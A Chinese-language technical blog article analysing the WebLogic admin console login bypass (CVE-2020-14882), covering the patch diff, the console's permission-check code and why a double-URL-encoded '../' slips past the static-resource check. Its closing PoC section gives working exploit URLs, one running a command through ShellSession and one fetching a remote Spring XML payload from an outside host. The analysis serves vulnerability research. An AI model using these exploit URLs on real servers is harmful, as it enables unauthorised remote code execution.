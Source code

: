 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/\_zNr5Jw7tH\_6XlUdudhMhA)

简介
--

weblogic 管理控制台需要用户名和密码去登录，但是通过该漏洞，可以绕过登录校验，直接进入后台访问 weblogic 的各种资源。

补丁 diff
-------

在这里我的 weblogic 版本为 12.2.1.4，其他版本都大同小异。下面我们看一下补丁 diff 结果

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdEvXXg0tRpIia0I3kliaKlfojaex7lGgSfApqjtKZnKBmL0V8mtERJ5VEKqnFAzw9QcNSxyjOuGpfbQ/640?wx_fmt=png)

因为这个类是 weblogic 从 http 访问的处理类，直接禁止 url 是否包含危险字符，如果包含，则直接退出。修复方案简单粗暴，不得不佩服。危险字符主要有以下几个

```
private static final String\[\] IllegalUrl = new String\[\]{";", "%252E%252E", "%2E%2E", "..", "%3C", "%3E", "<", ">"};
```

weblogic 管理控制台权限控制分析
--------------------

要分析这个洞，首先我们需要了解一下，登录 weblogic 管理控制台的权限控制

在处理 url 的`weblogic.servlet.internal.WebAppServletContext#doSecuredExecute方法`中，调用如下的代码去判断权限等一切有关于安全的内容。代码如下

```
if (context.getSecurityManager().checkAccess(req, rsp, applyAuthFilters, false)) {                if (s != null) {                    int count = ((SessionSecurityData)s).getConcurrentRequestCount();                    if (maxConcurrentRequestsAllowed != -1 && count > maxConcurrentRequestsAllowed) {                        context.logError("Rejecting request since concurrent requests allowable limit exceeded :" + maxConcurrentRequestsAllowed);                        rsp.sendError(500);                        return;                    }                }
```

在`weblogic.servlet.security.internal.WebAppSecurity#checkAccess(HttpServletRequest, HttpServletResponse, boolean, boolean, boolean)`中，判断是否所有 url 都需要权限。当然，访问静态资源肯定是不需要登陆的，可能是为了浏览器兼容性考虑，因为大部分浏览器在登陆后，对访问静态资源都会添加 cookie 头，只有个别浏览器不会。

所以 weblogic 将会根据访问的 url，也就是是否为静态资源，去返回一个`ResourceConstraint`对象。该对象描述了该 url 访问的资源的详细权限信息

```
            ResourceConstraint resourceConstraint = checkAllResources ? Holder.ALL\_CONSTRAINT : this.getConstraint(request);

authorized = this.delegateModule.isAuthorized(request, response, resourceConstraint, 
applyAuthFilters)
```

然后调用`weblogic.servlet.security.internal.SecurityModule#isAuthorized`方法，在该方法中获取用户 session，调用`weblogic.servlet.security.internal.ChainedSecurityModule#checkAccess`方法做进一步权限校验。

最后会在 weblogic.servlet.security.internal.CertSecurityModule#checkUserPerm 中调用 weblogic.servlet.security.internal.WebAppSecurity#hasPermission 方法，根据最开始生成的`ResourceConstraint`对象，判断该次 http 请求是否有权限。如图所示![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdEvXXg0tRpIia0I3kliaKlfojh6UnRv3TJeMW5RIAiaT85aXqnK8R3458sewATXrCAVBrY6hUO15UvHQ/640?wx_fmt=png)

如果用户访问的是静态资源，则返回 unrestricted 的值，hasPermission 返回为 true，weblogic 认为你有权限访问，于是就会放行。如果你访问非静态权限，则直接拦截你的请求，重定向至登陆页。

于是绕过登录的关键在于，怎么访问正常的资源，但是 weblogic 返回的是静态资源的`ResourceConstraint`对象

权限绕过分析
------

我们回到最开始的

```
ResourceConstraint resourceConstraint = checkAllResources ? Holder.ALL\_CONSTRAINT : this.getConstraint(request)
```

跟入`weblogic.servlet.security.internal.WebAppSecurityWLS#getConstraint(java.lang.String, java.lang.String)`

```
ResourceConstraint rcForAllMethods = consForAllMethods == null ? null : 
(ResourceConstraint)consForAllMethods.get(relURI);
```

在这里会调用`weblogic.servlet.utils.StandardURLMapping#get`去根据 url，返回对应的`ResourceConstraint`对象。

```
public Object get(String path) {        path = path.length() == 0 ? "/" : this.cased(path);        Object value = null;        if ((value = this.getExactOrPathMatch(path)) != null) {            return value;        } else {            return (value = this.getExtensionMatch(path)) != null ? value : this.getDefault();        }    }
```

首先调用`getExactOrPathMatch`方法，也就是根据 url，匹配是否在静态资源列表中，![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdEvXXg0tRpIia0I3kliaKlfojXXcFLL1ibma7U0tdajTqV53Huibbe9ibayRfNqxQnUMC1PBAH4VY5dINg/640?wx_fmt=png)

而 `%252E%252E%252F` 恰好是../ 的 url 二次编码结果。这样既可以返回静态资源的`ResourceConstraint`对象，又不会影响正常访问。

weblogic 二次编码原因
---------------

在 poc 中我们可以看到，`../`被二次编码了。下面我们来分析一下 weblogic 能解开的原因

根据 http 规定，url 部分，需要 url 编码后发送给服务器。服务器正常解开并继续处理。这是第一层 url 编码

第二层编码的处理，在`com.bea.netuix.servlets.manager.UIServletInternal#getTree`中，

```
    public static UIControl getTree(String requestPattern, UIContext ctxt, boolean setContentType, ResolvedLocale resolvedLocale) throws IOException, ServletException {
        HttpServletRequest request = ctxt.getServletRequest();
        HttpServletResponse response = ctxt.getServletResponse();
        requestPattern = URLDecoder.decode(requestPattern, containerServices.getWebappServices().getServerDefaultEncoding());
```

其中`URLDecoder.decode`会对第一次编码后的 url 做第二次解码的工作，当然，如果 url 还存在 url 编码的话。

这也就是为什么两次编码可以绕过的原因。

一次 url 编码为什么不可以绕过？因为经过服务器一次解码后，在`weblogic.servlet.utils.StandardURLMapping#get`处，无法匹配到静态资源。会被还原成原本的 url，所以无法绕过。。大家有机会可以看一下`weblogic.utils.collections.MatchMap#match`关于查找的代码

POC
---

#### weblogic 12

```
http://127.0.0.1:7001/console/css/%2e%2e%2fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22);
```

因为`com.tangosol.coherence.mvel2.sh.ShellSession`这个 gadget，只存在于 weblogic 12，weblogic10 并没有这个 gadget（没有包），所以无法使用

#### weblogic 10

因为 weblogic 10 没有相关 gadget 所以会报错，如图![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdEvXXg0tRpIia0I3kliaKlfojA6bSFFMa7pXBgQP5nANJgT5749dwPEmK9cnGxWPicIibUDic3Pnw1HluQ/640?wx_fmt=png)

需要使用`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

poc 如下

```
http://127.0.0.1:7001/console/css/%2e%2e%2fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.184.1:8000/spel.xml")
```

参考
--

1.  https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
    

宽字节安全 发起了一个读者讨论 cve-2020-14882 weblogic 绕过登录分析 精选讨论内容

余下 1 条讨论内容